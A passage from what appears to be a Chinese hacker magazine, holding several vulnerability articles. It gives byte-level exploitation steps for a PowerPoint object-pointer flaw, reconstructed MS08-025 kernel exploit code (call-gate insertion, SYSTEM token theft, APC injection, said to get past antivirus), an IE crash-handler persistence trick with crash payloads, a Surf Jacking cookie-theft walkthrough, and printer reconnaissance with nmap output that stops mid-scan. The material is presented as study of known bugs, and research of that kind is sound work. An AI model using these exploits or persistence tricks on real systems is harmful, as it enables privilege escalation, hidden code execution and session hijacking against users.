观察这几条指令，显然“3001a551 call [eax+1c]”是一个典型的虚函数调用。其中C++对象指针就是上级函数传入的ecx，也就是从3001a4fe中得到的eax。现在大家应该能看清整个流程了：0f000004是文件数据，其中0f是我们fuzz时修改的数据，由0f000004计算的数值，经过不长的代码后会直接影响3001a551处的虚函数调用。也就是说，如果适当修改文件中相关的几处数据，就可能导致在这个虚函数调用时执行ShellCode。下面我们就来验证这个想法，复杂的试探过程就不啰嗦了，直接给出正确的测试方法。

重新触发异常回到“3001a545 mov eax,[ecx+eax*4+4]”，执行“d ecx”，此时ecx指向的4字节数据为“0c 4f 93 00”，文件中并无这样的数据。不着急，接着“d ecx+1c”，如图10所示。

容易验证，“E0 10 00 00”这4字节正好是VA.ppt中的数据，位于文件偏移614H处。而这4字节正好是后面函数sub_3001a532中虚函数调…

图10

用所需要的 C++ 对象指针，可任意修改！现在的问题就是如何调整 eax，使得 ecx+eax\*4+4 就等于 ecx。这样一道简单的数学题中学生也会做，令 eax=-1，也就是说，将文件输入数据 0f000004 改为 FFFFFFFF 即可。修改后，保存为 VA2.ppt。

用 WinDBG 打开 VA2.ppt，这次异常出现在“3001a54f mov eax,[esi]”。如果能修改 esi 为合适的数值，使得 esi 指向的那片内存数据位于文件中，就可以利用了。然而在对 VA2.ppt 测试过程中，我并未发现合适的数值。一般 ppt 文件页面中的数据都会加载到内存中，而我们测试的文档是通过空白页面得来的。所以，将 VA.ppt 还原为正常文件，打开后，里面填充大量字符，如“aaaaaaaaaa...”，如图11所示。

图11

填充字节数的大小，是根据你自己需要的 ShellCode 的长度而定的。将前 6 个字符改为“kkkkk”，将对应位置修改为 FFFFFFFF 后，保存为 VA3.ppt，再次启动 WinDBG 调试。指令执行到 3001a54f 处异常，堆栈中搜索“kkkaaaaaaa...”，找到稳定的地址 00131bc8。OK，将文件中对应的“e0 10 00 00”和“kkka”均修改为“c8 1b 13 00”，然后将原来“kkka”起始地址+1C 处的“aaaa”修改为“e8 1b 13 00”，最后将“e8 1b 13 00”之后的两字节修改为 eb fe（死循环）。保存后，打开 VA3.ppt，是不是出现了 CPU 100%？若出现则成功了，否则需要在你自己机器上调整“c8 1b 13 00”这个堆栈地址。

为了直观观察测试结果，我在 V3.ppt 中加上了简单的 ShellCode。该 ShellCode 就放在填充的数据中，功能是启动本地计算器后陷入死循环（不退出）。至于更复杂的 ShellCode，大家根据实际需要自行添加即可。

分析到这里，我们可用一句话来归纳漏洞 A 的起因：通过 4 字节文件输入数据，计算 C++ 对象指针的地址（注意是对象指针的地址），但未对该 4 字节数据进行大小判断，导致漏洞 A 产生。这样的漏洞产生原因实在少见。

最后看看补丁究竟做了些什么事情。通过对补丁前后 powerpnt.exe 的反汇编代码比较分析，发现改动很小。补丁之后的代码，在 30099038 处，如图12所示。

```asm
loc_30099038:
mov  eax, [ebp+...]
push ebx
mov  ebx, [eax]
cmp  ebx, 9
ja   loc_301A5D2B ; error deal
```

图12

这段代码会判断我们要修改的 0f000004（原本是 00000004）这 4 字节是否大于 9。是的话，就作为错误处理，而在补丁之前并没有这个判断。

## 漏洞B分析提示

漏洞 B 我就不深入分析了，只给出一定的提示。大家或许分析过 gyzy 以前提供的 MS06-027 这个 Word 漏洞，漏洞 B 的起因和 MS06-027 比较类似。

对照图3，和漏洞 A 不同，这里的“0f 0f”不用于计算长度，而是在代码执行过程中作为流程改变的判断参考。如果这两字节满足一定条件，则代码按照正常流程执行；否则，就会走另一个流程，从而引用了非法的 C++ 对象指针，最后导致任意指令执行。至于漏洞利用的方法，则和漏洞 A 差不多。更多的内容我就不提示了，大家闲暇的时候自己分析一下吧，这样你的理解会更深入一些的。

## 小结

本文中，我和大家一起分析了一个 ppt 文件构造出两个漏洞的案例，个人觉得还是比较经典的。我认为，大家如果真对漏洞研究感兴趣，还是应该花时间打好基础，同时多留意和思考一些新的漏洞模式。

前置知识：C，汇编

关键词：漏洞、内核、提权

## 从MS08-025看本地提权漏洞的分析与利用

文／图 快乐的人

2008 年 4 月 8 号，微软发布了一个系统内核补丁 KB8941693，其对该漏洞的描述为：此安全更新解决 Windows 内核中一个秘密报告的漏洞。成功利用此漏洞的本地攻击者可以完全控制受影响的系统。攻击者可随后安装程序、查看、更改或删除数据；或者创建新账户。该补丁是用于 Windows 2000/XP/2003/Vista 和 Windows Server 2008 所有受支持版本的重要安全更新。此安全更新通过修改 Windows 内核验证从用户模式传递过来的输入方式来解决此漏洞。

该漏洞存在于 win32k.sys 模块中，其中出问题的地方是因为溢出寄存器绕过了 ProbeForWrite 函数对用户层传来的指针的检查导致的。

```asm
bf80a1d8 6a00 push 0x0
bf80a1da 6a02 push 0x2
bf80a1dc ff7638 push dword ptr [esi+0x38]
bf80a1df e8d1690200 call win32k!BuildHwndList
...
bf80a1e4 8bf8 mov edi,eax
bf80a1e6 85ff test edi,edi
bf80a1e8 0f8433f4ffff je win32k!xxxRealDefWindowProc+0x1225
bf80a1ee 8d7710 lea esi,[edi+0x10]
```

以上就是漏洞存在的地方，其结果是导致内核任意地址可写，这个漏洞可以来自 Ring3 的触发。

```c
SendMessageW(GetDesktopWindow(), WM_GETTEXT, 0x80000000, 0x80000000);
```

以上代码就可以引发 BSOD，说明已经成功地写入了内核地址。我们可以使用多种方法来实现获得系统权限。第一种方法是改写系统 SSDT 服务地址，然后调用之，gyzy 以前的文章中写了很多这种方法。另外一种方法是改写 HalDispatchTable 表来实现，还有一种方法就是直接向系统添加 call gate，call gate 被安装好以后，可以在任意用户模式下使用它来获取 Ring0 权限。

感谢 MJ0011 给我提供了一个测试样本。通过测试，MJ0011 的方法是直接向系统中添加一个 call gate，原因很简单，获取系统 gdt 指令的 sgdt 并不是特权指令，可以任意调用。下面我们就借助 IDA 和 OD，一步一步来剖析这个 EXP，不过我们还需要把这个 EXP 改成可以溢出获取系统权限的 EXP。

```asm
bf80a1b0 e96e4ffff jmp win32k!xxxRealDefWindowProc+0x1235
bf80a1b5 d1e8 shr eax,1
bf80a1b7 894510 mov [ebp+0x10],eax
bf80a1ba ebf1 jmp win32k!xxxRealDefWindowProc+0x190
...
bf80a1c8 c60000 mov byte ptr [eax],0x0
bf80a1cb e951f4ffff jmp win32k!xxxRealDefWindowProc+0x1225
...
// 这里对前面传入的指针进行了 2 个字节的写操作，写入的数据为 0
```

```asm
00401D69  9C                pushfd
00401D6A  60                pushad
00401D6B  52                push edx
00401D6C  0F014424 FE       sgdt fword ptr [esp-2]
00401D71  5A                pop edx
00401D72  8955 F8           mov dword ptr [ebp-8], edx
00401D75  68 C3000000       push 0C3
; /Arg2 = 000000C3
00401D7A  FF75 F8           push dword ptr [ebp-8]
; |Arg1|
00401D7D  E8 6EFFFFFF       call 00401CF0
00401D82  8B45 F8           mov eax, dword ptr [ebp-8]
00401D85  668945 E8         mov word ptr [ebp-18], ax
00401D89  C1E8 10           shr eax, 10
00401D8C  668945 EE         mov word ptr [ebp-12], ax
00401D90  C745 EA E8030000  mov dword ptr [ebp-16], EC0003E8
00401D97  C745 F0 FFFF0000  mov dword ptr [ebp-10], 0FFFF
00401D9E  C745 F4 009AC000  mov dword ptr [ebp-C], 0C9A00
00401DA5  33C0              xor eax, eax
```

```asm
mov dword ptr [CallGateData+8],0x0000ffff
mov dword ptr [CallGateData+12],0x00cf9a00
; fill the call gate data
xor eax,eax
LoopWrite:
movzx edi,byte ptr CallGateData[eax]
push edi
mov edi,Gdt_Addr
add edi,0x3e0
add edi,eax
push edi
mov Icount,eax
call WriteSysMemory
mov eax,Icount
inc eax
cmp eax,0x10
jnz LoopWrite
; write the call gate data
popad
popfd
}
```

以上代码的作用就是获取 gdt，其中“sgdt fword ptr [esp-2]”可以直接获取当前的 gdt 地址，其后的代码是完成 call gate 所需代码部分的组装，我们不过多分析，而是直接将其还原为 ASM 代码。

其中的 WriteSysMemory 就是用来写入内核任意内存的函数，它的功能最为重要，作用是完成对指定地址的写入，我们同样直接还原出 ASM 代码。这里顺便说一下，要想写好 EXP，逆向还原代码的能力是必须的，不一定要还原出 C，ASM 其实也很好用的。

```c
void AddCallGate()
{
    ULONG Gdt_Addr;
    BYTE  CallGateData[0x10];
    ULONG Icount;
    __asm {
        pushfd
        pushad
        ; push all reg
        push edx
        sgdt [esp-2]
        pop edx
        ; get the gdt address
        mov Gdt_Addr,edx
        push 0xc3
        push Gdt_Addr
        call WriteSysMemory
        ; write the call gate type
        mov eax,Gdt_Addr
        mov word ptr [CallGateData],ax
        shr eax,16
        mov word ptr [CallGateData+6],ax
        mov dword ptr [CallGateData+2],0x0ec0003e8
    }
}
```

```asm
sub esp, 3E8
lea eax, dword ptr [esp]
push ebx
push esi
mov GetDesktopWindow
push edi
push eax
push 3E8
push 0D
call esi
mov SendMessageW
push eax
call edi
lea ecx, dword ptr [esp+3FC]
mov ebx, eax
push ecx
push 1
push 0C
call esi
push eax
call edi
mov edx, dword ptr [esp+3F8]
```

```asm
push edx
push 80000000
push 0D
call esi
push eax
call edi
lea eax, dword ptr [esp+C]
push eax
push ebx
push 0C
call esi
push eax
call edi
pop edi
pop esi
xor eax, eax
pop ebx
add esp, 3E8
retn 8
```

```asm
push eax
@xx_00401913:
add eax, ebx
add ecx, 4
mov dword ptr [esi*4+0404188h], eax
mov eax, dword ptr [ecx-4]
sub eax, dword ptr [edx+01Ch]
add eax, ebx
mov dword ptr [esi*4+0404EA0h], eax
inc esi
mov dword ptr [04059A8h], esi
mov eax, dword ptr [ecx]
sub eax, dword ptr [edx+01Ch]
cmp eax, dword ptr [edx+038h]
jb @xx_00401913
```

不过现在我们有了更加强大的 IDA 的 F5 插件，可以将其直接还原成 C 代码。

这段代码的原理很简单，我就不继续分析了。下面才是我们需要的东西，就是在前人的基础上编译我们需要的 EXP，实现本地提权能力。最为简单的本地提权功能就是直接提升执行 EXP 的这个进程为 System 权限，这可以通过修改 token 来实现。

```c
int __stdcall addr(LPARAM addr, char data)
{
    HWND v3;
    WPARAM v4;
    HWND v5;
    LPARAM v6;
    HWND v7;
    HWND v8;
    LPARAM lParam;

    v3 = GetDesktopWindow();
    v4 = SendMessageW(v3, WM_GETTEXT, 0x3E8u, (LPARAM)&lParam);
    v5 = GetDesktopWindow();
    SendMessageW(v5, WM_SETTEXT, 1u, (LPARAM)&data);
    v6 = addr;
    v7 = GetDesktopWindow();
    SendMessageW(v7, WM_GETTEXT, 0x80000000u, v6);
    v8 = GetDesktopWindow();
    SendMessageW(v8, WM_SETTEXT, v4, (LPARAM)&lParam);
    return 0;
}
```

```asm
// 获取当前进程的 KPEB 地址
mov eax, fs:[0x124]
mov esi, [eax+0x44]
mov eax, esi

/* 搜索 SYSTEM 进程的 KPEB 地址 */
/* 获得下一个进程的 KPEB */
search:
mov eax, [eax+0xa0]
sub eax, 0xa0
cmp [eax+0x9c], 0x8
// 从 PID 判断是否 SYSTEM 进程
jne search
mov eax, [eax+0x12c]
// 获取 system 进程的 token
mov [esi+0x12c], eax
// 修改当前进程的 token
```

很轻松地就可以把一个 EXP 予以还原。下面的代码很简单，就是直接加载原始文件，读取 ssdt。MJ0011 的这个演示样本就是用来还原 SSDT 的，我只引用其中的关键部分。

用 System 进程的 token 替换当前进程的 token，这样我们的进程就有最高权限了，这是最简单的利用方式。如果我们需要更好的方式，那么就需要使用 APC 了，这在 gyzy 以前的文章中有所提及，代码同样很简单，下面为其核心部分代码。

```asm
push 0404064h ; keservicedescriptortable
push edi
call esi
push edx
```

```asm
xor edx, edx
push edx   // NULL
push 01    // UserMode
push eax   // User Mode routine
push edx   // NULL
```

```asm
mov eax, ZwYieldExecution??
// kernel routine ret
push eax
// Kernel Mode routine
push edx  // NULL
push ebp
// 前面找到线程的 ETHREAD
push esi  // APC object
mov eax, KeInitializeApc?? // initialize APC
call eax
xor ecx, ecx
xor edx, edx
xor eax, eax
push eax
push eax
push ebp
// ETHREAD
push esi
// APC Object
mov eax, KeInsertQueueApc
call eax
```

这段代码就是直接在内核中使用 KeInsertQueueApc 对一个系统进程插入 user apc，然后直接强制 alertable=1，立刻发生 apc 调用。当然，我们也可以不这么“暴力”，但是考虑到我们的 EXP 是一次性的，并且这样做对系统的影响不大。

总体来说，个人认为，内核溢出相对于其他溢出来说，是比较简单的，一般都是造成内核任意地址可写，导致我们可以直接改写系统关键部分地址，从而间接获取系统 Ring0 权限。另外说一句，这种方法也可以用来突破 SSM、卡巴斯基之类的主动防御体系。

最后再说一下内核漏洞相关利用手段。据我所知来说，内核有 3 种覆盖手段，最为大家熟悉的就是 SSDT 地址表覆盖法了，但是这个办法有一些局限，系统的 SSDT 地址表默认是不可写的，如果强行覆盖有一定失败概率或者 BSOD；另外一种方法是上面 MJ0011 所提出的 add call gate 法，这种办法在 Windows 2003 SP2 和 Vista 上已经不能再获取 Ring0 权限了；还有一种办法就是覆盖内核中的 HalDispatchTable 表来执行代码，这个办法虽然不太为人所知，但成功率还不错。

本文是我通过对各种已有资料的分析，写出了自己满意的 EXP 的总结，尽量写得浅显易懂，不涉及一些相关的高深知识，有兴趣的朋友可以自己参考 gyzy 以前的文章。个人认为，内核溢出漏洞比其他漏洞方便多了，利用就是那么一种，掌握起来也是很容易的，先从内核漏洞开始学习，可以更快地体验到成功的乐趣。本文错误疏漏在所难免，敬请广大读者指正，如有任何问题，欢迎登录黑防论坛与我讨论。

前置知识：无  
关键词：漏洞、自启动、崩溃处理机制

## 绝对E体验

## 实现另类自启动

文／图 王鹏[Solo] & 爱无言

最近一直在研究程序的自启动方法，原因是学校让我们编写一个软件，在开机的时候作一些安全提示之类的动作，其实就类似一个要输入访问密码才能继续使用系统的软件。这个简直是太简单了，不就是把编写好的程序直接放在“开始\程序\启动”文件夹里就可以实现进入系统前启动我们的安全程序吗？

可是老师竟然说，不许利用“启动”文件夹、注册表的“Run”键值，以及一些常见的启动方法。这下让人都闷了，不让利用常见的自启……启动方法，那我怎么编写这个软件啊。后来查找了不少资料，了解到自启动原来也有很多办法，这里为了方便阅读，我特别将其整理如下。

## 常见自启动方式

- 1) Startup 启动文件夹（Windows 9x/XP/2000）

```text
C:/Documents and Settings/All Users/Start Menu/Programs/Startup
C:/Documents and Settings/username/Start Menu/Programs/Startup
C:/Documents and Settings/All Users/「开始」菜单/程序/启动
```

- 2) 注册表中 Run 项添加自启动

```text
[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/RunOnce]
[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Run]
[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/RunOnceEx]
[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/RunEx]
[HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/RunOnce]
[HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/Run]
[HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/RunOnceEx]
[HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/RunEx]
```

- 3) 服务：计算机管理 -> 服务列表 -> 设置为自动的服务会随系统启动。  
- 4) 文件关联：例如 EXE 文件，注册表项为 `"HKEY_CLASSES_ROOT/exefile/shell/open/command" "%1" %*`。  
- 5) 随系统启动的系统配置文件 WIN.INI 中的 `"RUN="` 和 `"LOAD="`。  
- 6) 随系统启动的系统配置文件 SYSTEM.INI 中 boot 项中的 `"shell=explorer.exe c:/windows/filename"`。  
- 7) 计划任务：存放的定时作业可设置系统启动时等任意时间调用程序。  
- 8) 其他值得注意的注册表项：

```text
[HKEY_CURRENT_USER/Software/Microsoft/WindowsNT/CurrentVersion/Windows/load]
[HKEY_LOCAL_MACHINE/Software/Microsoft/ActiveSetup/InstalledComponents]
[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Explorer/UserShellFolders]
[HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/SessionManager/BootExecute]
[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Winlogon/UserInit]
```

- 9) 虚拟设备：我的电脑 -> 属性 -> 硬件 -> 设备管理器 -> 查看 -> 显示隐藏的设备 -> 非即插即用驱动程序。  
- 10) Autorun.inf 文件。  

看了这么多的自启动方式，似乎能让人放下心来，看来完成老师交给的任务还是很简单的。既然说到了自启动，那么就发散一下思维。我们都知道，现在的木马程序实现自启动的方法很多，除去上面的那些传统方法，更多的是利用 IE 来实现自启动，因为木马的作用就是为了能够远程控制，而一般远程控制都是利用网络，这也少不了 IE。利用 IE 实现自启动的方法，最多的应该是 BHO，后来发展到 ActiveX、第三方工具条等。是不是 IE 的自启动方式就仅限于此呢？这个想法被一个短信给否定了：“IE 可以实现很多另类的一个自启动方式，你可以自己研究下——爱无言”。

爱无言是我的朋友，因为他最近很忙，所以没能直接联系。既然都给我发短信了，我想绝对不能辜负了他对自己的期望。于是连忙用 Google + Baidu 查询怎么能利用 IE 实现另类的自启动。可是查来查去都不外乎是前面说到的那些办法，这该如何是好？不得已只好再次发短信询问爱无言从哪里入手，其回答很简单：“Crash!” 崩溃！这怎么可能？

我们也都知道，程序一旦崩溃只可能被关闭。可我们要的是自启动，也就是执行程序。难道说 IE 的崩溃与众不同，可以帮助我们获得执行程序的机会？如果是真的，那么现在我们首先要做的就是找到一段能令 IE 崩溃的代码，看看 IE 在崩溃的时候到底做了哪些与众不同的事情。代码我这里找好了，因为我是 IE6，所以这段代码只能让 IE6 崩溃，代码为：

```html
<style>*{position:relative}</style><table><input>


```

系统终止了。既然爱无言说能获得自启动的机会，那么一定意味着 IE 在崩溃的时候可以启动别的进程，同时这个进程启动动作比较隐蔽，一般用户发现不了，因此我们就必须借助一些监视软件来帮助我们。于是我决定使用 PG 来监视系统，PG 最好的功能就是监视系统变化中的进程，尤其是监视即将运行的一个进程。打开 PG，然后用 IE 打开刚才的那段崩溃代码，发现在 IE 崩溃的一瞬间出现了如图1所示的界面。
图1

原来 IE 在崩溃的时候是利用 iedw.exe 这个程序做崩溃处理的。查看其属性不难发现，IE Crash Detection 果然是用来处理 IE 崩溃的。如果我们替换这个 iedw.exe 会不会有什么新的事情发生呢？于是我使用 cmd 来替换 iedw.exe，结果在替换中发现，这个文件有保护，但只要我们的操作速度够快就能替换了。这个过程可以直接写一个批处理程序来代替我们的手工劳动，替换后再次使用 IE 打开刚才的崩溃文件，出现了如图2所示的结果，cmd 果然被执行了！

为了能够更加贴近实际应用广泛的 IE7，我专门在 IE7 + Windows XP SP2 的环境下做了测试，相应的崩溃代码也要做出改变。下面给出的这段崩溃代码比起用 Google 查找到的代码要高效得多，网上给出的一个通吃 IE 的代码是一段让 CPU 狂转的代码，并不适合我们现在的这个测试。

```html
<script language="JavaScript">
  obj = new ActiveXObject("giffile");
  obj.bgColor;
</script>


```
图2

保存这段代码为 HTM 文件，然后替换 IE7 安装目录下的 iedw.exe 为 cmd，接着用 IE7 打开测试文件，效果如图3所示。
图3

现在我们明白了，这个另类的自启动方法原来是利用了 IE 的崩溃处理机制。与别的处理机制不同，IE 利用了外部的一个程序来帮助自己，具体原因我还没有探求，但这也充分说明了这种方式的一个不安全性。虽然说利用条件十分苛刻，要求 IE 出现崩溃才可以。我把这个想法告诉爱无言后，他说：“没错，这个方法是不可靠，但现在越来越多的插件常常让浏览器崩溃，此时就不得不说这个方法是个好方法了！”这么说也许是对的，但无论如何这都是一种新的自启动思路，在一些极端情况下，这种启动方法就显得格外优越了。我相信这篇文章对一些人能起到一定有用，最起码让我从中学到了不少。

前置知识：https  
关键词：漏洞、Surf Jacking、获取 Cookie
# Surf Jacking

## 攻击的原理与发现

文/图 古典娃娃[幻影乌鸦]@雷洲半岛

Surf Jacking 技术是 ENABLE SECURITY 的 Sandro Gauci 在文章《Surf Jacking "HTTPS will not save you"》中发布出来的。这里我会和大家一起探讨一下其原理、过程和局限性。

简单来说，Surf Jacking 这种技术，或者称之为技巧，其目的就像 CSRF 攻击一样，都是用来获取用户的 Cookies，但它是针对 HTTPS 的，因为 HTTPS 是经过加密的，直接 CSRF 攻击获取不到 Cookies。使用 Surf Jacking 可以强制用户去访问 HTTPS 站点中的非 HTTPS 页面（HTTP 页面可以是伪造的），然后在这个过程中获取用户的 Cookies 等一些 HTTPS 里保护的敏感数据。

原文的作者说“HTTPS will not save you”，我感觉有点夸张了，因为 Surf Jacking 的使用还是有其局限性的，前提条件需要能够截获网络流量。

Surf Jacking 的攻击原理是利用 HTTP 协议里的 301、302、303、307 等返回信息包中 Location 字段可指定转向网址的原理。如攻击者可篡改 HTTP response 包为 301 号返回，然后 Location 字段指向想要获取 Cookie 的 HTTPS 站点的一个非 HTTPS 页面，浏览器接收到这样的返回包时，就会跳转到攻击者指定的地址。如果用户之前登录过攻击者指定的网址，并留下了 Cookie，那么攻击者就可以截获用户的浏览器向服务器发送的 Cookie。这个过程在 CSRF 中是利用 JavaScript 脚本代码来实现偷偷跳转的，而且还可以指定跳转后进行用户权限允许的操作。

- 目标 HTTPS 站点存在 HTTP 链接时的攻击过程如下：  
  1. 嗅探到被攻击者的浏览器访问某网站 A；  
  2. 攻击者篡改 HTTP response 包为 301 号返回，然后把 Location 指向想要获取 Cookie 的 HTTPS 站点 B 的一个非 HTTPS 页面；  
  3. 浏览器收到 301 号返回，跳转到 Location 指定的非 HTTPS 页面，并向该页面发送 Cookie；  
  4. 攻击者截获浏览器访问 B 的 Cookie。  

因为 Cookie 是在客户端产生并保存在客户端的，所以即使目标站都使用了 HTTPS，我们同样可以欺骗被劫持主机中的浏览器认为服务器存在 HTTP 服务，那么浏览器就会向我们虚构的 HTTP 页面发送 Cookie。

- 目标 HTTPS 站点不存在 HTTP 链接时的攻击过程如下：  
  1. 嗅探到被攻击者的浏览器访问某网站 A；  
  2. 篡改 HTTP response 包为 301 号返回，然后 Location 指向想要获取 Cookie 的 HTTPS 站点 B 的任意 HTTP 链接；  
  3. 浏览器收到 301 号跳转，开始访问 B 的 HTTP 页面；  
  4. 截获浏览器访问 B 的 HTTP 页面的 SYN 请求；  
  5. 响应给浏览器 SYN+ACK 以完成 TCP 握手；  
  6. 浏览器继续发送 HTTP GET 请求，并向该页面发送 Cookie；  
  7. 截获浏览器访问 B 的 Cookie。  

我们以获取 Gmail 的 Cookie 为例，在本地进行实验，先勾上 Gmail 里只允许 HTTPS 访问的选项，然后开始 Surf Jacking，通过嗅探发现目标正在访问百度。

```http
GET http://www.baidu.com/ HTTP/1.1
Accept:image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,application/vnd.ms-excel,application/vnd.ms-powerpoint,application/msword,application/x-silverlight,*/*
Accept-Language: zh-cn
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727) Paros/3.2.13
Host: www.baidu.com
Proxy-Connection: Keep-Alive
Cookie: BAIDUID=...; BDSTAT=...; BDUSS=...
```

接着篡改其 HTTP response 包为 301 号返回，把 Location 指向 Gmail 的 HTTP 用户页面。

```http
HTTP/1.1 301 Moved Permanently
Location: http://mail.google.com/mail/?ui=1
Cache-Control: private
Content-Length: 0
```

```http
Proxy-Connection: Keep-Alive
Host: mail.google.com
HTTP/1.1 404 Not Found
Date: Tue, 12 Aug 2008 16:12:51 GMT
Content-Type: text/html; charset=UTF-8
Server: gws
Content-Length: 1352
```

被攻击者的浏览器接收到被篡改的 HTTP response 包后，会跳转到 Location 指向的 Gmail 用户页面。如果该页面之前登录过，并且在本地保存了 Cookie，浏览器就会将 Cookie 再次发送到服务器进行认证，这样攻击者就可以截获该 Gmail 用户的 Cookie 了。

```http
GET http://mail.google.com/mail/?ui=1 HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,application/vnd.ms-excel,application/vnd.ms-powerpoint,application/msword,application/x-silverlight,*/*
Accept-Language: zh-cn
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727) Paros/3.2.13
Cookie: ...
Proxy-Connection: Keep-Alive
Host: mail.google.com
```

下面我们来探讨一下关于用户身份认证的 3 种情况：一是会话 Cookie，二是持久 Cookie，三是 Session 认证。当在登录 Gmail 的时候选择“在本计算机上保存账户”时，则会使用持久 Cookie 认证方式。浏览器会把 Cookie 保存到硬盘上，关闭后再次打开浏览器仍然有效，直到超过设定过期时间。

如果不选择“在本计算机上保存账户”，则使用的是会话 Cookie（Session Cookie）。这种 Cookie 不设置过期时间，生命周期为浏览器会话期间；关闭浏览器窗口后即消失。会话 Cookie 一般不保存在硬盘上，而是在内存里。不同浏览器处理方式不同，IE6/IE7 下与进程、标签页共享机制有关。

```http
HTTP/1.1 301 Moved Permanently
Location: http://mail.google.com/klok
Cache-Control: private
Content-Length: 0
```

当 Location 指向 HTTPS 站点上不存在的页面时，浏览器一样会把存在的 Cookie 向我们伪造的链接发送出来。

```http
GET http://mail.google.com/klok HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,application/vnd.ms-excel,application/vnd.ms-powerpoint,application/msword,application/x-silverlight,*/*
Accept-Language: zh-cn
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727) Paros/3.2.13
Cookie: TZ=-480; SID=...; PREF=...; GMAIL_HELP=hosted:0


```

还有一种用户身份认证方式是 Session 机制。Cookie 机制是在客户端保持状态，Session 机制是在服务器端保持状态。服务器端保持状态时，客户端仍需保存一个标识，通常借助 Cookie 保存 Session ID。因此如果抓到 Session ID 且服务器端 Session 尚未失效，可能存在被利用风险。

最后讨论如何防范 Surf Jacking：在 Cookie 中增加 Secure 标识（Secure Flag），强制该 Cookie 只能在 HTTPS 下发送。这样从 HTTPS 跳转到 HTTP 页面时不再携带敏感 Cookie，可减少泄露风险。但这要求网站尽量全面使用 HTTPS，或提供仅通过 HTTPS 连接的选项。

前置知识：无  
关键词：漏洞、打印机攻击、打印服务器
# 飘悠在办公室里的隐形——打印机攻击

文/图 杨哲/Christopher Yang [ZerOne]

在传统的网络安全架构及理念中，提及企业资产中的网络设备时，绝大多数管理员及网络安全人员都会想到诸如服务器、客户端计算机、路由及交换设备、无线网络设备等常被提及的网络设备，但是除此之外，还有一些网络设备时常会被安全人员所忽视。这些被忽视的设备上可能出现的安全隐患，在某些程度上并不亚于存在严重级别漏洞，比如在办公室里无处不在的打印设备。

## 打印机/打印服务器基本概念

近20年来，随着时代及技术的不断进步，和手机的逐步发展一样，打印机从作为一台简单的输出设备在使用，到目前在功能上不但支持照片打印，增加了复印、传真等功能，在打印效果上也有了很大的进步。除此之外，随着网络化的加快，即使是打印机，也增加了网络连接的功能或者模块，以及网络管理配置功能。各种不同功能不同类型的打印机，已经成为现代化办公环境中必不可缺的一部分。下面，我们就先看看本文中涉及的打印机基本概念及打印机设备的部署方式。
图1 打印设备的几种部署方式

根据图1所示的打印设备部署方式，我们分别解释一下。

**普通打印机**：中小型办公及家用打印机，根据小型办公环境使用打印机的特点，目前低档的彩色喷墨打印机逐渐成为主流产品。

**共享打印机**：指通过在计算机上设置共享的方式，来实现内网中其他计算机也能够使用同一台打印机的目的。这是目前办公环境中最简单的一种打印共享实现方式。

**网络打印机**：用于网络系统，要为多数人提供打印服务，因此要求这种打印机具有打印速度快、能自动切换仿真模式和网络协议，便于网络管理员进行管理等特性。

**打印服务器**：通过外置打印服务器将打印机连接到企业内部网或者高速以太网，是目前企业或需要高性能 10/100Base-TX 网络打印的主要解决方案。一般来说，其打印速度比文件服务器或共享的 PC 打印连接快 6 倍。

**多功能打印机**：快速且经济高效，集打印、传真、扫描和复印功能以及网络功能，甚至无线连接于一身的高级打印机，也称之为多功能一体机。

这里，我们通常会遇到的多是共享打印机，但是作为打印服务器，其优点不但包括可以将多台不同型号打印机连接到一起，还使得……用户不再受到共享打印必须开启主机的限制，此外还有效地提高了单位时间的打印效率。加之其灵活部署性及广泛的网络协议支持性，开始受到大中型企业单位的欢迎。比如惠普 JetDirect 620n 打印服务器具有 1 个 RJ-45 端口，标配有 16MB 内存，支持 TCP/IP、IP 直连模式、LPD、FTP、IPP、IPX/SPX、DLC/LLC、AppleTalk、Auto-IP，符合 Apple Rendezvous 标准、NDS、Bindery、NCP、Telnet、SLP、IGMP、BOOTP/DHCP、WINS、SNMP v1 和 v2c、HTTP 等多种网络协议，具有以太网/快速以太网端口等。如图2所示为 D-LINK 打印服务器配置页面。
图2 打印服务器配置页面

至于多功能打印机，其功能完全包含了打印服务器及高级打印机的所有功能。随着其价位的不断降低，越来越多的公司也开始采用此类打印设备。打印机的安全问题，也随着其功能的强大，开始引起更多的关注。当然，有些关注对于企业来说，也许是并不愿意见到的。

## 扫描及识别打印机/打印服务器

很多提供打印服务的高级打印服务器都会根据其支持性开放不同的服务，即开启不同类型的端口。那么，在进入到内部网络后，进行渗透测试的安全人员可以使用功能较全面的 nmap 对内网进行端口扫描来判定。如下为对内网打印服务器进行的端口扫描，可以看到识别为 D-Link 的产品。

```text
C:\nmap-4.76>nmap -v -sS 192.168.1.200
Starting Nmap 4.76 ( http://nmap.org ) at 2008-09-20 12:31 中国标准时间
Initiating ARP Ping Scan at 12:31
Scanning 192.168.1.200 [1 port]
Completed ARP Ping Scan at 12:31, 0.16s elapsed
(1 total hosts)
Initiating Parallel DNS resolution of 1 host at 12:31
Completed Parallel DNS resolution of 1 host, at 12:31, 0.00s elapsed
Initiating SYN Stealth Scan at 12:31
Scanning 192.168.1.200 [1000 ports]
Discovered open port 80/tcp on 192.168.1.200
Discovered open port 21/tcp on 192.168.1.200
Discovered open port 23/tcp on 192.168.1.200
Discovered open port 139/tcp on 192.168.1.200
Discovered open port 515/tcp on 192.168.1.200
